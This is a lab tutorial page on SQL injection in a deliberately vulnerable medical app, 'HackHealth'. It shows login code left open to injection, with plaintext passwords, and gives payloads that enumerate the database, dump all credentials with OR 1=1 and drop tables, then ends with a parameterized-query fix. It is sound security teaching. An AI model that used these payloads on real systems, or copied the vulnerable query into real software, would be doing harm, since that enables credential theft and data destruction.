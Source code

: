 
# A03:2021 - Injection

<Callout type="info" emoji="ℹ️">
For the information about **Injection**, visit [page](https://owasp.org/Top10/A03_2021-Injection/)
</Callout>

# SQL Injection

<Callout type="warning" emoji="🔍">
  **CWE-89**: SQL Injection <br />
</Callout>

## About

## Attack
### Code preparation
To prepare for this attack, we need to slightly modify the implementation of handling the login request, because we have already implemented secure way in section [❕JWT authentication](/cybersecurity/a02/jwt). <br />
Replace the handling of login request in `routes/jwtAuth.ts` with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, async (req, res) => {
    const {email, password} = req.body;
    let user = null;

    try {
        user = await pool.query(
            "SELECT email, password from useraccount WHERE email = '" + email + "'"
        );

        if (user?.rows?.length === 0 || user?.length === 0) {
            return res.status(401).json({message: "Invalid email or password.", user: user});
        }

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json({message: "Invalid email or password.", user: user});
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
            user: user
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send({message:"Server error", user: user});
    }
});
```

<Callout emoji="💡">
Compared to previous implementation, we get rid of the `inputValidation` middleware, we handle passwords as plain text and we adjusted the query to be vulnerable to SQL injection.
</Callout>

### Gather internal information
Firstly, we are going to gather some internal information about the database and tables, which will then help us to perform some more serius attacks. <br />
#### **Database type** <br />
* Enter the following inside the email field on HackHealth login screen.
```sql copy
' UNION SELECT usename, NULL FROM pg_user--
``` 
* Leave the password field empty and click on the login button. <br />
* When you open Developer Tools, in the Console, when digging deeper into `user.rows` in JSON response from the server, you will see the type of the database which is used. <br />
<Image src="/a03/a03_1.png" alt="SQL injection console log" width={1000} height={300}/>
#### **Database name** <br />
* Enter the following inside the email field on HackHealth login screen, keep the password field empty and hit Login.
```sql copy
' UNION SELECT current_database(), null--
```
* After digging deeper into servers response, in `user.rows`, you will see the name of the database: `hackhealthdb` <br />
#### **Names of tables** <br />
* In the same way as in the previous step, we can get the name of the database by inserting following code into the email field.
```sql copy
'; SELECT table_name FROM information_schema.tables WHERE table_schema='public'; --
```
* Again, after digging deeper into `user[1].rows`, you will see the names of the tables. <br />
    * useraccount
    * appointment
    * medicalreport
<Callout emoji="💡">
To sum up, we have gathered the following information: <br />
* Database type: PostgreSQL
* Database name: hackhealthdb
* Names of tables: useraccount, appointment, medicalreport <br />

We are going to use this information in the next steps.
</Callout>

### Grant unauthorized access
In this attack, our aim is to get login credentials for all the users in the table `useraccount`. <br />
Into an email field, we are going to insert the following code:
```sql copy
' OR 1=1; --
```
<Callout type="info" emoji="ℹ️">
This input would cause the SQL query to be constructed as follows: <br />
```sql copy
SELECT email, password form useraccount WHERE email = '' OR 1=1; --
```
The semicolon (;) terminates the current statement and the two dashes (--) indicate a comment, effectively ignoring the remaining part of the original query. The injected SQL code OR 1=1 will always evaluate to true, effectively bypassing the authentication check and returning all records from the "useraccount" table.
</Callout>
* In the response from the server (`user.rows`), we are now able to see all the users with their login credentials. <br />

### Corrupt the tables and database
SQL injection attack is not only about getting the data, but also about corrupting the data. <br />
#### **Drop the table** <br />
* Enter the following inside the email field on HackHealth login screen.
```sql copy
'; DROP TABLE useraccount CASCADE; --
```
* Congratulations, you have just dropped the table `useraccount`! <br />
* Now, when you try to log in with the credentials you have obtained in the previous step, you will not be able to log in -> the table of users just do not exist anymore. <br />
<Callout type="info" emoji="ℹ️">
This was made possible only because when creating the tables, foreign key were created with CASCADE option. It means that when the table is dropped, all the tables that depend on it are also dropped. <br />
</Callout>

#### **Drop the database** <br />
	Dropping the database is quite more challenging that dropping individual tables. When you will try to execute command:
    ```sql copy
	'; DROP DATABASE hackhealthdb; --
    ``` 
    you will get an error in the server log: `DROP DATABASE cannot run inside a transaction block`.
	This indicates that PostgreSQL does not allow a database to be dropped while there are active connections to it. This is to prevent accidental data loss due to unintended drops. Solution would be to terminate all running connections to the database, but this could not be done through SQL injection. <br />
	Although the attempt about dropping whole database was not successful, we have  already caused considerable damage.

<Callout type="error" emoji="️🚫">
  Do not forget to put the database to initial state after the attack. <br />
  To do so, stop the server and run the following commands in the terminal:
    ```bash copy
    npm run db-drop
    npm run db-create
    npm run db-seed
    ```
    After running the following commands, db should be in the initial state.
</Callout>

## Prevention
To prevent SQL injection attacks, it's important to use **parameterized queries** instead of concatenating user input directly into SQL queries. Parameterized queries use placeholders for user input and sanitize the input to prevent malicious SQL code from being executed. <br />
In the source code, we can replace current implementation of handling login request with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, inputValidation, async (req, res) => {
    const {email, password} = req.body;

    try {
        const user = await pool.query(
            "SELECT * FROM useraccount WHERE email = $1",
            [email]
        );

        if (user.rows.length === 0) {
            return res.status(401).json("Invalid email.");
        }

        // VUL A02
        // const validPassword = await bcrypt.compare(password, user.rows[0].password);

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json("Invalid password.");
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send("Server error");
    }
});
```
As you can see in the code above, we are using placeholders for user input and sanitizing the input (inputValidation middleware) to prevent malicious SQL code from being executed. <br />
<br />
Also, in the file `Login.js` (easily find by pressing Shift+Shift and typing Login.js), we need to delete line:
```js copy
console.log(parseJSON)
```
By deleting the line, we will no longer be able to see the response from the server in the Console in Developer Tools, which is definitely a better practise.


## Verification
To verify that the vulnerability has been fixed, you can try running some commands from Attack section again. The result should be, that injecting malicious SQL code into email field will not trigger any unintended behavior. <br /> 

## Sources
* https://cwe.mitre.org/data/definitions/89.html\
* Bachelor thesis
